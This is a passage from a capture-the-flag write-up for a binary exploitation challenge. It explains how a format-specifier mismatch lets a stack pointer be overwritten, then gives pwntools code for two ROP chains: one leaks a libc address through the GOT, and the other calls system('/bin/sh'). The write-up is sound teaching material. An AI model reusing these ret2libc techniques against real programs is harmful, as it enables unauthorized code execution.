  
</p>

By inspecting the memory at this point, we can see where the user-entered values are stored. Here, we can see our choice (2) to read the newspaper:

<p align="center">
  
</p>

Later in execution, we encounter the following lines of code:

```c
void enjoy_time()
{
    ...
    char (*feedback)[ENTRY_SIZE];
    if (check((size_t) &feedback))
        return;
}
...
```
Stepping into the `check()` function frame in the debugger, we can reveal the address of the `feedback` variable:

<p align="center">
  
</p>

Inspecting the memory further, we see that this address is located directly above the choice variable, at:
```
0x74f4752f7fd8
``` 
We can also see the "`yes`" input we provided when asked for feedback. This reveals that the `ans` buffer is located directly after the choice variable and spans 12 bytes:


<p align="center">
  
</p>

Next, we reach this point in the code:

```c
void enjoy_time()
{
    ...
    short index = 0;
    char (*feedback)[ENTRY_SIZE];
    ...
    input("%llu", &index);
    if (index >= 0 && index < GUESTBOOK_SIZE) {
        feedback = &guestbook[index];
    }
    ...            
    read(0, feedback, ENTRY_SIZE);
    ...
}
```

Looking in the debugger, we can reveal the address of the `index` variable:

<p align="center">
  
</p>

At this point, we can observe that `index` and `feedback` are neighbors on the stack. Now we have a complete overview of this fragment of the current unsafe stack:


<p align="center">
  
</p>

The stack data at this point looks as follows:

| Color     | Meaning                       | Size      | Address               |
|-          |-                              |-          |-                      |
| red       | `index` variable          | 2 bytes, `short`      | `0x74f4752f7fd6`      |
| cyan      | `feedback` variable       | 8 bytes, pointer      | `0x74f4752f7fd8`      |
| green     | some safe stack location  | 8 bytes, pointer      | `0x74f4752f7fe0`      |
| purple    | `choice` variable         | 4 bytes, `int`        | `0x74f4752f7fe8`      |
| yellow    | `ans` buffer              | 12 bytes, array       | `0x74f4752f7fec`      |
| blue      | stack canary              | 8 bytes               | `0x74f4752f7ff8`      |

At this point, the exploitation logic becomes crystal clear. The incorrect use of the `%llu` format specifier when reading `index` allows us to write 8 bytes into memory.

Since the `index` variable is only a `short` (2 bytes), this means that:
- The first 2 bytes will overwrite `index`.
- The remaining 6 bytes will overflow into the neighboring `feedback` pointer.

Because the higher 2 bytes of most virtual addresses are typically unused, this allows us to set the `index` variable arbitrarily while using the remaining 6 bytes to overwrite the `feedback` pointer - giving us control over the destination of the subsequent `read()` call.

Since we already know the return address (from the previous step), we set it as the target for our feedback:


<p align="center">
  
</p>

Here:
- The first 2 bytes are 0x0539 (decimal 1337) and are written into `index`.
- The remaining 6 bytes specify the address of the return address. These overwrite the `feedback` pointer.

Before proceeding with further modifications, we inspect the safe stack to verify the current return address:

<p align="center">
  
</p>


### 0x7.2 First ROP Chain: Leak libc

Meanwhile, we can craft our first ROP chain. A gadget one often sees is:
```
pop rdi
ret
```

We can locate it in our binary using `ROPgadget`:

```python
addr = subprocess.check_output(
    "ROPgadget --binary vuln | grep 'pop rdi ; ret' | head -n1 | awk '{print $1}'",
    shell=True,
    text=True
).strip()
POP_RDI_GADGET = int(addr, 16)
```
In our case, the address was `0x4027b9`. Let’s take a look at the disassembly around this point:

```
  4027ac:	e8 4f fa ff ff       	call   402200 <pthread_key_create@plt>
  4027b1:	48 83 c4 20          	add    rsp,0x20
  4027b5:	5b                   	pop    rbx
  4027b6:	41 5e                	pop    r14
  4027b8:	41 5f                	pop    r15
  4027ba:	c3                   	ret    
```

Interestingly, we do not see an explicit `pop rdi` instruction here. But why does the gadget `pop rdi ; ret` appear at this location?

Registers `r14` and `r15` are so-called **extended registers**, which were not available in the original x86 32-bit instruction set. In order to access them, the CPU uses a `REX` prefix - in this case, the `0x41` byte seen at `0x4027b8`.

For general-purpose registers, the `pop` instruction has the following opcode:
```
58 + register_id
```

The `register_id` for `rdi` is 7 in the Intel 8086 instruction set. Thus:
```
0x58 + 7 = 0x5f
```
and `0x5f` is the opcode for `pop rdi`.

Now, since the `REX` prefix is only one byte (`0x41`), if the instruction pointer shifts by one byte and starts at `0x4027b9`, it lands directly on `0x5f`, which the CPU interprets as `pop rdi`.

The [System V AMD64 ABI](https://refspecs.linuxbase.org/elf/x86_64-abi-0.99.pdf) defines the registers `r12` through `r15`, `rbp`, and `rbx` as callee-saved registers. This means that any function which uses these registers must restore their original values before returning.

If a function uses `r15`, the compiler emits a `pop r15` instruction in the function epilogue. If the function also uses other callee-saved registers, the epilogue will include additional `pop` instructions, such as `pop r14`, `pop rbx`, etc., before the final `ret`.

Because this pattern is very common in larger functions (and in functions that call library functions such as `pthread_key_create`), gadgets like `pop r15 ; ret` or `pop r14 ; pop r15 ; ret` - and even accidentally aligned `pop rdi ; ret` - appear frequently in real-world binaries.


Next, we leak the address of `puts()`.

Since the `puts()` function has already been used multiple times during the program's execution, its symbol is already resolved in the **Global Offset Table** (GOT):


```
0x406ed0 <puts@got[plt]+0000>    f0 92 8f 2d bb 7a 00 00 c0 f6 94 2d bb 7a 00 00    ...-.z.....-.z..
```

This GOT entry now contains the actual address of `puts()` in `libc`:

```
0x7abb2d8f92f0 <puts+0000>    41 56 41 55 41 54 49 89 fc 55 53 e8 30 fe fa ff    AVAUATI..US.0...
0x7abb2d8f9300 <puts+0010>    4c 8b 2d 41 bc 15 00 48 89 c3 49 8b 6d 00 8b 55    L.-A...H..I.m..U
0x7abb2d8f9310 <puts+0020>    00 81 e2 00 80 00 00 75 67 4c 8b 85 88 00 00 00    .......ugL......
```


The corresponding resolver code is located in the **Procedure Linkage Table** (PLT):

```
0x402070 <puts@plt+0000>    ff 25 5a 4e 00 00 68 04 00 00 00 e9 a0 ff ff ff    .%ZN..h.........
```

When the register instruction pointer (RIP) lands on this byte location, the CPU hardware reads the first byte `0xff` and recognizes that this is a family of instructions which require an additional byte (ModR/M byte) to fully determine the operation.

The following byte, `0x25`, is known as the ModR/M byte and has a specific structure. If we decode it in binary:
```
0x25 = 0b100101 = 0b00_100_101
```
- The first two bits are the `mod` bits. `00` tells the CPU that it is using memory addressing and that no additional displacement is present, except for RIP-relative addressing (which is triggered by the next field).
- The next three bits are the `reg` bits. Interpreted as `0b100 = 4`, it instructs the CPU to perform the operation corresponding to `FF /4`, which is `jmp r/m64`. This means the CPU will jump to the address stored at the effective address calculated next.
- The last three bits are the `r/m` bits. `101` is a special value which signals RIP-relative addressing: the next 4 bytes in the instruction stream will be interpreted as a signed 32-bit displacement, which is added to the value of RIP to compute the effective memory address to read.

The next four bytes contain this signed displacement, encoded in two's complement. Therefore, the relevant decoded part of the code says:
```
0x402070 <puts@plt>:
ff 25 5a 4e 00 00    jmp QWORD PTR [rip + 0x4e5a]
```
After reading the last `0x00` byte, the instruction pointer will point to `0x402076`. Adding `0x4e5a` gives us:
```
0x402076 + 0x4e5a = 0x406ed0
```
This is exactly the GOT entry related to `puts()`:

```
0x406ed0 <puts@got[plt]+0000>    f0 92 8f 2d bb 7a 00 00 c0 f6 94 2d bb 7a 00 00    ...-.z.....-.z..
```
This GOT entry contains the actual resolved address of puts in `libc` (a full 64-bit address).

In other words, we can construct the ROP chain as follows:

```python
rop_chain = ( # First ROP-chain leaks the address of puts@libc and returns to main()
    p64(POP_RDI_GADGET) + 
    p64(elf.got["puts"]) + 
    p64(elf.plt["puts"]) + 
    p64(elf.symbols["main"])
)
p.sendlineafter(b'comment:\x1b[0m', rop_chain)  
```

Here’s what happens:
- We overwrite the return address with the address of a `pop rdi ; ret` gadget.
- `pop rdi` pops the address of the `puts@got` entry into the `rdi` register.
- The `ret` instruction then transfers control to `puts@plt`.
- The `puts` function is called with the address of the GOT entry as its argument, so `puts` will print the actual address of `puts` in `libc`.
- Finally, when `puts` reaches its `ret` instruction, execution returns to `main()`.

We can verify the chain in memory. The return address at `0x7ffd6c174c28` is overwrriten by the address of the `pop rdi` gadget address, the rest of the chain follows:

<p align="center">
  
</p>

In this way, we perform a "libc leak": we reveal the actual memory address of `puts()` as loaded at runtime. 

This allows us to to compute the base address of `libc` and perform further exploitation:

```python
p.recvline()
puts_addr = u64(p.recvn(6).ljust(8, b"\x00")) # puts@libc
print("Leaked puts@libc address:", hex(puts_addr))                                                    
libc_addr = puts_addr - libc.symbols["puts"] # libc base
print("Calculated libc base:", hex(libc_addr))
system = libc_addr + libc.symbols["system"] # system@libc
print("Resolved system@libc:", hex(system))
```

### 0x7.3 Second ROP Chain: `system("/bin/sh")`


After we return to `main()`, the safe stack is cleaned - meaning that `main()` creates a new function frame when it calls `enjoy_time()`, and our first ROP chain is no longer present:

<p align="center">
  
</p>


However, the unsafe stack remains unchanged:

<p align="center">
  
</p>

At this point, we have already unlocked the `feedback` functionality, since the `order_filled` flag remains set. Therefore, we can now directly leave the steakhouse and craft a new ROP chain:

```python
cmd_to_execute = b"/bin/get_flag\x00" # Second ROP-chain executes system("/bin/get_flag").
rop_chain = (
    p64(POP_RDI_GADGET) + 
    p64(return_addr + 3 * 8) + 
    p64(system) + 
    cmd_to_execute
)
```
It does not matter whether we use `/bin/get_flag` or `/bin/sh` as the command, because after starting a shell we can also run the `get_flag` script.

Let’s take a look at the second ROP chain in memory:

<p align="center">
  
</p>

Here is what happens:

- We use the same `pop rdi ; ret` gadget.
- `pop rdi` pops the value at address `0x7ffd6c174c30` into the `rdi` register.
At `0x7ffd6c174c30`, we place an address that points `0x10` bytes forward, where we store the string `/bin/sh` or `/bin/get_flag`.
- In other words, we pop the address of `/bin/sh` (located at `0x7ffd6c174c40`) into the `rdi` register.
- Control flow then continues to `system("/bin/sh")` (or `system("/bin/get_flag")`), which either opens a shell or executes the `get_flag` script.

## 0x8. Getting the Flag

If we execute `get_flag`, we can print the flag with:
```python
if FLAG_OUTPUT_ONLY: 
    p.recvuntil(b"flag")                                                           
    print("\nflag" + p.recvline().decode().strip())
else:
    output = p.recvall(timeout=5).decode(errors="ignore")
    print("\n" + output)
```
The `FLAG_OUTPUT_ONLY` flag determines whether the full output stream is printed, or only the flag itself is extracted and displayed.

If instead we submit a shell, we can switch to interactive mode using `p.interactive()` and locate the flag manually:

```
[*] Paused (press any to continue)
[*] Switching to interactive mode

$ ls
names.txt
newspaper.txt
vuln
$ ../../bin/get_flag
flag_9a2f7c0e1b3d5e8f4c6a9d1b3e5f7a2c
```

---

## 0x9. Conclusion

### 0x9.1.  Why *Double Steak Bounty*?

The name reflects the layered nature of this challenge and exploit.

While the story revolves around earning steaks in a game, the actual solution unfolds across **two intertwined dimensions**:

- We navigate **two stacks** - the safe stack and the unsafe stack - each with different protection models and behaviors.
- We have to exploit both stacks.
- We apply a form of **parallel binary search** across both **address space** and **index space** to locate and control key memory regions.
- We double or halve credits while playing the game.
- We enhance a naive brute-force with algebraic optimizations, transforming a linear scan into a beautiful orbit-based search - again weaving **parallel** logic between lines and addresses.
- We perform **two** ROP chains.
- etc.

### 0x9.2. Thanks!

If you’ve made it this far - well done! We hope you’ve learned something new along the way ;)

---

```bash
   🥩  Dual paths converged - now take what you have forged.  🥩

   ,--./,-.
  / #      \
 |          |
  \        /    Today's Special:
   `._,._.'     flag_6393022650281e4e932a8a4368509c82

 Bon appétit!
 ```
## 0xa Appendices


### 0xa.1. Challenge Source Code
[vuln.c](../deploy/vuln.c)

### 0xa.2. Exploit Source Code
[solution.py](solution.py)

**Hint**: The exploit’s `ULIMIT_S` value must match the Docker container’s stack size (`ulimit -s`). 

 If you built the challenge with:
```bash
./install.sh -u 32
```
then the corresponding line in the exploit must be:
```python
ULIMIT_S = 32 
```

### 0xa.3. Challenge Program Flow


<p align="center">
  
</p>
